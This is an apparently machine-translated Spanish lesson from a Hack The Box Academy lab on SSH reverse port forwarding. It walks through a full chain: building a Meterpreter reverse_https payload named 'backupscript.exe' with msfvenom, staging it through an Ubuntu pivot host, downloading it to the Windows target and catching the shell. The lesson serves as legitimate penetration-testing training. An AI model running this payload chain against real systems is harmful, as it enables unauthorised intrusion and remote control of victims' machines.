 # Remote/Reverse Port Forwarding with SSH

Hemos visto el reenvío de puertos locales, donde SSH puede escuchar en nuestro host local y reenviar un servicio en el host remoto a nuestro puerto, y el reenvío dinámico de puertos, donde podemos enviar paquetes a una red remota a través de un host de pivote. Pero a veces, es posible que deseemos reenviar un servicio local al puerto remoto también. Consideremos el escenario en el que podemos RDP en el host de Windows`Windows A`. Como se puede ver en la imagen a continuación, en nuestro caso anterior, podríamos pivotar en el host de Windows a través del servidor Ubuntu.

![](https://academy.hackthebox.com/storage/modules/158/33.png)

`But what happens if we try to gain a reverse shell?`

El`outgoing connection`para el host de Windows solo se limita al`172.16.5.0/23`red. Esto se debe a que el host de Windows no tiene ninguna conexión directa con la red en la que está el host de ataque. Si iniciamos un oyente de MetaSploit en nuestro host de ataque e intentamos obtener un shell inverso, no podremos obtener una conexión directa aquí porque el servidor de Windows no sabe cómo enrutar el tráfico de dejar su red (172.16.5.0/23) para llegar al 10.129.xx (la red de laboratorio de la academia).

Hay varias veces durante un compromiso de prueba de penetración cuando no es factible tener una conexión de escritorio remota. Es posible que quieras`upload`/`download`archivos (cuando el portapapeles RDP está deshabilitado),`use exploits`o`low-level Windows API`Uso de una sesión de meterpreter para realizar enumeración en el host de Windows, que no es posible usar el incorporado[Ejecutables de Windows](https://lolbas-project.github.io/).

En estos casos, tendríamos que encontrar un host de pivote, que es un punto de conexión común entre nuestro host de ataque y el servidor de Windows. En nuestro caso, nuestro host Pivot sería el servidor Ubuntu, ya que puede conectarse a ambos:`our attack host`y`the Windows target`. Para ganar un`Meterpreter shell`En Windows, crearemos una carga útil de meterpreter HTTPS utilizando`msfvenom`, pero la configuración de la conexión inversa para la carga útil sería la dirección IP del host del servidor Ubuntu (`172.16.5.129`). Usaremos el puerto 8080 en el servidor Ubuntu para reenviar todos nuestros paquetes inversos al puerto 8000 de los hosts de ataque, donde se está ejecutando nuestro oyente de MetaSploit.

### **Creación de una carga útil de Windows con MSFVENOM**

Reenvío de puertos remoto/inverso con SSH

```
xnoxos@htb[/htb]$ msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 712 bytes
Final size of exe file: 7168 bytes
Saved as: backupscript.exe

```

### **Configurar y iniciar el Multi/Handler**

Reenvío de puertos remoto/inverso con SSH

```
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
lhost => 0.0.0.0
msf6 exploit(multi/handler) > set lport 8000
lport => 8000
msf6 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:8000

```

Una vez que se crea nuestra carga útil y tenemos a nuestro oyente configurado y ejecutado, podemos copiar la carga útil al servidor Ubuntu utilizando el`scp`Comando ya que ya tenemos las credenciales para conectarnos al servidor Ubuntu usando SSH.

### **Transferir la carga útil al host Pivot**

Reenvío de puertos remoto/inverso con SSH

```
xnoxos@htb[/htb]$ scp backupscript.exe ubuntu@<ipAddressofTarget>:~/

backupscript.exe                                   100% 7168    65.4KB/s   00:00

```

Después de copiar la carga útil, comenzaremos un`python3 HTTP server`Usando el siguiente comando en el servidor Ubuntu en el mismo directorio donde copiamos nuestra carga útil.

### **Iniciar servidor web de Python3 en Pivot Host**

Reenvío de puertos remoto/inverso con SSH

```
ubuntu@Webserver$ python3 -m http.server 8123
```

### **Descargar la carga útil en el objetivo de Windows**

Podemos descargar esto`backupscript.exe`En el host de Windows a través de un navegador web o el cmdlet de PowerShell`Invoke-WebRequest`.

Reenvío de puertos remoto/inverso con SSH

```powershell
PS C:\Windows\system32> Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"

```

Una vez que tengamos nuestra carga útil descargada en el host de Windows, usaremos`SSH remote port forwarding`Para reenviar conexiones desde el puerto 8080 del servidor de Ubuntu a nuestro servicio de oyente de MSFConsole en el puerto 8000. Usaremos`-vN`Argumento en nuestro comando ssh para hacerlo textual y pídale que no solicite el shell de inicio de sesión. El`-R`El comando le pide al servidor Ubuntu que escuche`<targetIPaddress>:8080`y reenviar todas las conexiones entrantes en el puerto`8080`a nuestro oyente msfconsole en`0.0.0.0:8000`de nuestro`attack host`.

### **Usando ssh -r**

Reenvío de puertos remoto/inverso con SSH

```
xnoxos@htb[/htb]$ ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN

```

Después de crear el puerto remoto SSH hacia adelante, podemos ejecutar la carga útil desde el objetivo de Windows. Si la carga útil se ejecuta según lo previsto e intenta conectarse de nuevo a nuestro oyente, podemos ver los registros del pivote en el host Pivot.

### **Ver los registros desde el pivote**

Reenvío de puertos remoto/inverso con SSH

```
ebug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61355
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=5
debug1: channel 1: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: free: 172.16.5.19, nchannels 2
debug1: channel 1: connected to 0.0.0.0 port 8000
debug1: channel 1: free: 172.16.5.19, nchannels 1
debug1: client_input_channel_open: ctype forwarded-tcpip rchan 2 win 2097152 max 32768
debug1: client_request_forwarded_tcpip: listen 172.16.5.129 port 8080, originator 172.16.5.19 port 61356
debug1: connect_next: host 0.0.0.0 ([0.0.0.0]:8000) in progress, fd=4
debug1: channel 0: new [172.16.5.19]
debug1: confirm forwarded-tcpip
debug1: channel 0: connected to 0.0.0.0 port 8000

```

Si todo está configurado correctamente, recibiremos un shell meterpreter pivotado a través del servidor Ubuntu.

### **Sesión de meterpreter establecida**

Reenvío de puertos remoto/inverso con SSH

```
[*] Started HTTPS reverse handler on https://0.0.0.0:8000
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Staging x64 payload (201308 bytes) ...
[!] https://0.0.0.0:8000 handling request from 127.0.0.1; (UUID: x2hakcz9) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (127.0.0.1:8000 -> 127.0.0.1 ) at 2022-03-02 10:48:10 -0500

meterpreter > shell
Process 3236 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>

```

Nuestra sesión de meterpreter debe enumerar que nuestra conexión entrante es de un host local en sí (`127.0.0.1`) ya que estamos recibiendo la conexión sobre el`local SSH socket`, que creó un`outbound`conexión al servidor Ubuntu. Emitiendo el`netstat`El comando puede mostrarnos que la conexión entrante es del servicio SSH.

La siguiente representación gráfica proporciona una forma alternativa de comprender esta técnica.

![](https://academy.hackthebox.com/storage/modules/158/44.png)

Además de responder las preguntas de desafío, practique esta técnica e intente obtener un shell inverso del objetivo de Windows.